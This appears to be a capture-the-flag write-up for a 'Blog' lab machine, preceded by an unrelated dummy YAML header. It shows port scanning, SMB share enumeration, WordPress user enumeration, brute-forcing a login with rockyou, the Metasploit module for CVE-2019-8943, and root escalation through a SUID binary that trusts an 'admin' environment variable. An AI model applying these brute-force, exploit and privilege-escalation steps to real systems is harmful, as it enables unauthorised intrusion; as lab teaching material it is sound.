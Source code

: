 ```yaml
---
title: Test Toc Level - TOC_LEVEL = 6
toc_level: 6
category: Dummy
date: 2019-1-1
---
```


# Objectives

Capture two flags from the box

# Steps

Since the task tells us to add blog.thm to the hosts file let’s do that before we start running anything on it.

# Enumeration

As always lets start with a basic portscan
	
```python
Nmap scan report for <IP>
Not shown: 998 closed ports
22/tcp  open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have HTTP and SMB open. Let’s check out the SMB share

#SMB

Let’s scan the machine with smbmap to check for available shares
	
```
» smbmap.py -H <IP>
[+] Finding open SMB ports....
[+] Guest SMB session established on <IP>...
[+] IP: <IP>:445 Name: blog.thm
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        BillySMB                                                READ, WRITE     Billy's local SMB Share
        IPC$                                                    NO ACCESS       IPC Service (blog server (Samba, Ubuntu))
```

Let’s try to get the files from the BillySMB share as it’s the one that stands out
	
```
» smbclient //10.10.29.18/BillySMB
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 11 00:52:57 2020
  ..                                  D        0  Tue May 26 19:58:23 2020
  Alice-White-Rabbit.jpg              N    33378  Tue May 26 20:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 20:13:45 2020
  check-this.png                      N     3082  Tue May 26 20:13:43 2020

                15413192 blocks of size 1024. 9737512 blocks available
```
If we download the files we don’t see anything obvious. We can check the jpg with stegsolve

```
» steghide extract -sf Alice-White-Rabbit.jpg
Enter passphrase:
wrote extracted data to "rabbit_hole.txt".
» cat rabbit_hole.txt
```
You've found yourself in a rabbit hole, friend.

So since this is a rabbit hole let’s check out the HTTP server
HTTP

http index
When we visit the website we see a basic blog. From the room description we know it’s running wordpress.

With that we can scan it using wpscan (I’ll remove the unnecessary info)

```
» wpscan --url blog.thm -e u
Interesting Finding(s):

[+] WordPress version 5.0 identified (Insecure, released on 2018-12-06).
 | Found By: Rss Generator (Passive Detection)
 |  - http://blog.thm/feed/, <generator>https://wordpress.org/?v=5.0</generator>
 |  - http://blog.thm/comments/feed/, <generator>https://wordpress.org/?v=5.0</generator>

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <========================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

We see the site is using WP version 5.0 and it found two users: kwheel and bjoel.

Room tags are hinting at a CVE (CVE-2019-8943) which is a vulnerability allowing for writing files with arbitrary paths thanks to path traversal in wp_crop_image().
If we read a bit more about this vuln we can find out that it requires a user account. Thankfully we got the two usernames here so let’s try bruteforcing at least one of them.

Since wpscan has a bruteforce feature we can use that.

```
» wpscan --url blog.thm -U kwheel,bjoel -P /opt/wordlists/rockyou.txt --password-attack wp-login -t 64
<RANDOM THINGS>

[SUCCESS] - kwheel / <REDACTED>
```

After around two minutes we succesfully gained a user account which we can now use to gain a shell.

# CVE-2019-8943 - metasploit

Metasploit contains a module that exploits this vulnerability which we can use to gain a shell.
exploit/multi/http/wp_crop_rce

# Shell

Now that we have a shell we can check for other users on the system

```
$ ls /home
bjoel
```

# Privesc

Looking through the system we can’t find a way to get to bjoel but we can see a suid binary that stands out a bit with it being in /usr/sbin

```
$ /usr/sbin/checker
Not an Admin
```
The program prints out a string but doesn’t seem like it does anything else so let’s check it with ghidra.

Ghidra decompiler shows us a program looking something like this (the code below has been cleaned up a bit)

```
int main(void) {
  char *adminEnv = getenv("admin");

  if (adminEnv == (char *)0x0) {
    puts("Not an Admin");
  } else {
    setuid(0);
    system("/bin/bash");
  }

  return 0;
}
```

We can see this program just gets the “admin” env variable and checks if it’s not null so we can easily bypass this by setting it to anything.

```
$ admin=a /usr/sbin/checker
id
uid=0(root) gid=33(www-data) groups=33(www-data)
```

Now we can read the root flag, check out the bjoel’s files and find his hidden user flag in /media

Thanks to:
```
    Nameless0ne for creating this room
    you for reading.
    Hope you learned something :)
```
